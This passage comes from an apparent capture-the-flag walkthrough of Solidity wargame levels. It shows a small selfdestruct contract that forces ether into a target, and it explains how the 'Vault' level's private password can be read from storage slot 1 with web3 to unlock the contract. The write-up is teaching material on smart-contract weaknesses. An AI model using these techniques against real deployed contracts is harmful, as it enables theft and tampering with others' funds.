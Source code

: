 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceExploit {
    constructor(address payable forceInstance) payable {
        selfdestruct(forceInstance);
    }
}
```

---

# <a name="vault"></a> 8. Vault
\[[top](#top)\]

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Vault {
  bool public locked;
  bytes32 private password;

  constructor(bytes32 _password) public {
    locked = true;
    password = _password;
  }

  function unlock(bytes32 _password) public {
    if (password == _password) {
      locked = false;
    }
  }
}
```

We have to set "locked" variable to "false" to complete this challenge. To unlock the contract, we can use unlock method but it requires a password. password is stored in "password" private variable. Even if the password is "private", we can read it's value. The difference between "public" and "private" variable is not that "public" variables can be read by anyone and "private" variables can only be read by the contract. What it means is that, when a variable is marked "public" in solidity, solidity compiler creates public getter function for that variable and  won't create for "private" variables. Irrespective of variable visibility, all the state variables are stored in storage of the contract. And contract storage is part of the blockchain state, which anyone can read with access to a network node. But the benefit of declaring variables "private" is that, they cannot be read by other smart contracts. To be exact, no contract can read other contracts storage, so, to allow reading public variables solidity creates public getter function which allow reading public variables using a message call. "web3" provides helper functions to read storage of an address based on the slot number. "password" variable is stored in storage slot 1 and using web3 we can read the password and call unlock with it.
